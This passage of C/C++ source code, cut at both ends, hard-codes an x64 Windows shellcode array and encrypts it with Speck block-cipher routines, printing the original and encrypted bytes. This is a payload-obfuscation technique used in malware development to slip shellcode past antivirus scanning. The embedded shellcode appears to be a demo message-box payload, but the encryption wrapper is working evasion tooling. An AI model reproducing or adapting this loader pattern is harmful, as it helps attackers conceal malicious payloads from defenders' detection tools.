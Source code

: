 ```cpp
}

void encrypt_payload(unsigned char* payload, int length) {
  for (int i = 0; i < length; i += BLOCK_SIZE) {
    speck_encrypt((uint64_t*)(payload + i), (uint64_t*)(payload + i + 8));
  }
}

void decrypt_payload(unsigned char* payload, int length) {
  for (int i = 0; i < length; i += BLOCK_SIZE) {
    speck_decrypt((uint64_t*)(payload + i), (uint64_t*)(payload + i + 8));
  }
}

void print_payload(const char* label, unsigned char* payload, int length) {
  printf("%s: ", label);
  for (int i = 0; i < length; i++) {
    printf("\\x%02x", payload[i]);
  }
  printf("\n");
}

int main() {
  unsigned char shellcode[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  int length = sizeof(shellcode) - 1;
  unsigned char* payload = malloc(length);
  memcpy(payload, shellcode, length);

  speck_key_schedule();

  printf("original payload\n");
  for (int i = 0; i < length; i++) {
    printf("\\x%02x", payload[i]);
  }
  printf("\n");

  pad_payload(&payload, &length);
  encrypt_payload(payload, length);
  printf("encrypted payload\n");
```